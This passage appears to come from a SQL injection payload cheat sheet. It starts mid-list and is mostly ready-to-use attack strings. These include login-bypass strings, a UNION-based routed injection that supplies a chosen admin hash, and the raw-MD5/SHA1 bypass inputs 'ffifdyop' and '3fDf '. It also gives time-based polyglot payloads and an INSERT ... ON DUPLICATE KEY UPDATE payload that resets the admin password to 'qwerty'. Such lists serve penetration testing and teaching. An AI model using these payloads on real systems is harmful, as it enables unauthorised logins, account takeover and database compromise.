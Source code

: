 admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
</code></pre>

### **Authentication Bypass (Raw MD5 SHA1)** ###

When a raw md5 is used, the pass will be queried as a simple string, not a hexstring.

```
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

Allowing an attacker to craft a string with a `true` statement such as `' or 'SOMETHING`

```
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```

Challenge demo available at [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772/)

### **Polyglot injection (multicontext)** ###

```
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```

### **Routed injection** ###

```
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

### **Insert Statement - ON DUPLICATE KEY UPDATE** ###

ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

```
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```
